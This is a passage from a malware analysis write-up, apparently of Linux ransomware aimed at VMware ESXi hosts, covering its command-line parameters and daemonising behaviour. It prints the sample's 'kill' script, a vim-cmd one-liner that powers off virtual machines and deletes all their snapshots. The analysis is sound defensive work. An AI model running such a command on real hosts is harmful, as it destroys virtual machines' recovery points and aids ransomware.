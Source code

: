 [ELFEN](https://github.com/nikhilh-20/ELFEN) detects this as malicious behavior.

![Detect Malicious File Extension](assets/images/detect_file_extension_add.png "Detect Malicious File Extension")

## <a name="code-analysis"></a>Code Analysis

### <a name="cmdline-params"></a>Command-line Parameters

The `--esxi` command-line parameter causes the sample to terminate VMs and remove their snapshots on the ESXi host
through the `vim-cmd` utility as we saw in the previous sections. The `--skip` parameter specifies VM IDs which should
be excluded from this operation. In that case, the `kill` script is as shown below:

```bash
$ cat kill 
vim-cmd hostsvc/autostartmanager/enable_autostart 0; for i in $(vim-cmd vmsvc/getallvms | awk '{print $1}' | grep -Eo '[0-9]{1,5}'); do if [[ $i -ne 1 ]]; then vim-cmd vmsvc/power.off $i; vim-cmd vmsvc/snapshot.removeall $i; else vim-cmd vmsvc/snapshot.removeall $i; fi; done;
```

![esxi Command-line Param](assets/images/ida_esxi_param.png "esxi Command-line Param")

The `--daemon` parameter causes the sample to `fork()` itself and then set the child as the session leader using
`setsid()`. This allows the child process to live if the parent process is killed.

![esxi Command-line Param](assets/images/ida_flag_daemon.png "esxi Command-line Param")
